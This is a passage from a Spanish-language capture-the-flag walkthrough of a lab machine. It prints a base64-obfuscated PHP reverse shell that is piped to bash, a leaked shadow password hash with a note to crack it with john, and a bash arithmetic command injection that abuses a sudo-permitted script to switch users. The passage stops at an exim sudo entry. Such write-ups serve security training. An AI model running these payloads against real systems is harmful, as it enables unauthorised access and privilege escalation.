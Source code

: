 Ejecutamos :

```bash

echo "cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE3Mi4xNy4wLjEiLDQ0Myk7ZXhlYygiL2Jpbi9iYXNoIDwmMyA+JjMgMj4mMyIpOyc=" | base64 -d | bash

```

YA ESTAMOS COMO WWW-DATA.
# ESCALADA PRIVILEGIOS

Buscamos por usuario:

   ```bash
find / -user darksblack 2>/dev/null
/home/darksblack
/var/backups/darksblack
/var/backups/darksblack/.darksblack.txt
cat /var/backups/darksblack/.darksblack.txt
darksblack:$y$j9T$LHiaZ3.V.uZMQWNKIHQaK.$yucUM837WonVbazf5eQWEmFnG5u0ZY5VTxH37NhaCE5:20028:0:99999:7:::

```

Es un fragmento del shadow -> usaremos **unshadow** y **john**.

YA ESTAMOS COMO DARKSBLACK.

Vemos si el usuario tiene permisos SUDO:
   ```bash
darksblack@f37db1a842bf:/var/www/html/pruebasUltraSecretas$ sudo -l
Matching Defaults entries for darksblack on f37db1a842bf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User darksblack may run the following commands on f37db1a842bf:
    (maci) NOPASSWD: /home/maci/script.sh

```

Vemos **/home/maci/script.sh** con permisos SUDO:

```bash

darksblack@f37db1a842bf:/var/www/html/pruebasUltraSecretas$ sudo -u maci /home/maci/script.sh
Adivina: a[$(bash >&2)]+42
maci@f37db1a842bf:/var/www/html/pruebasUltraSecretas$ id
uid=1000(maci) gid=1000(maci) groups=1000(maci)
maci@f37db1a842bf:/var/www/html/pruebasUltraSecretas$ 

```

YA ESTAMOS COMO MACI

Vemos si el usuario tiene permisos SUDO:
   ```bash
maci@f37db1a842bf:/var/www/html/pruebasUltraSecretas$ sudo -l
Matching Defaults entries for maci on f37db1a842bf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User maci may run the following commands on f37db1a842bf:
    (pepe) NOPASSWD: /usr/sbin/exim

```
